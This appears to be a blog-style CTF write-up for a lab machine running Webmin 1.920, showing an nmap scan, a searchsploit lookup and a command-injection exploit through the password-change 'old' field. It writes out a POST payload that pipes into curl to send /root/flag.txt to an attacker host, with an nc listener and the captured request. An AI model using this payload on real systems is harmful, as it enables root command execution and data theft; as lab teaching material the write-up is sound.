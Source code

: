 ```yaml
---
layout: post
title: "CTF7E4 - UNICORN Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine is about a recent vulnerablity found on Webmin <= 1.920 via password change. By adding a pipe command “|” to the old password field using a POST request, a remote attacker could run arbitrary commands as the root user on the system.

&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.44
- **Difficulty:** Easy

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.44**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for unicorn (10.10.10.44)
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f1:b4:bf:cb:95:d7:9e:07:a7:a1:1f:20:cb:02:c5:69 (RSA)
|   256 ab:ee:da:73:a7:d4:9c:f2:3b:2b:17:ff:6d:5a:04:61 (ECDSA)
|_  256 17:8c:23:ff:b5:a3:f8:af:ca:6c:b3:a2:00:79:b5:97 (ED25519)
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

Browsing to http://10.10.10.44:10000/, a redirect message to https://unicorn:1000/ appeared. 
&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn1.png){:.images}
&nbsp;

In order to access this page, we should add **unicorn** to our /etc/hosts file.

> **→ echo "10.10.10.44 unicorn" >> /etc/hosts**{: style="color: red"}

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn2.png){:.images}
&nbsp;

Bruteforcing the credentials it's not necessary here since an exploit already exists.

> **→ searchsploit webmin 1.920**{: style="color: red"}

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn3.png){:.images}
&nbsp;

Analyzing the exploit seen in the image below, we can see that the vulnerable parameter is **old** and after we add a **'\|'**(pipe) after the password string, we are able to run arbitrary commands as the root user on the system.

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn4.png){:.images}
&nbsp;

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn6.png){:.images}
&nbsp;

To verify the command execution, we can make a single request to our machine listening on a random port.

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn7.png){:.images}
&nbsp;

Since we know that webmin is running with root privileges, we don't need to get a reverse shell. We can try to read the /root/flag.txt and send the output to our server using curl as seen on the screenshot below.
&nbsp;

Request:
**user=spenkk&pam=&expired=2&old=SPENKK\|curl http://10.10.20.2:9000/?flag=****\`cat /root/flag.txt\`**{: style="color: red"}**&new1=arbenn&new2=arbenn**

&nbsp;
![unicorn]({{ site.baseurl }}/assets/images/ctf7e4/machines/unicorn8.png){:.images}
&nbsp;

Attacker Machine:
> **→ nc -lvp 9000**{: style="color: red"}

```
Connection from 10.10.10.44:41136
GET /?flag=XORb89b400eaed5ba88b8bdef14e3a015a8f19f0ba4 HTTP/1.1
Host: 10.10.20.2:9000
User-Agent: curl/7.58.0
Accept: */*
```


&nbsp;
I hope you had fun solving this machine and learning something new.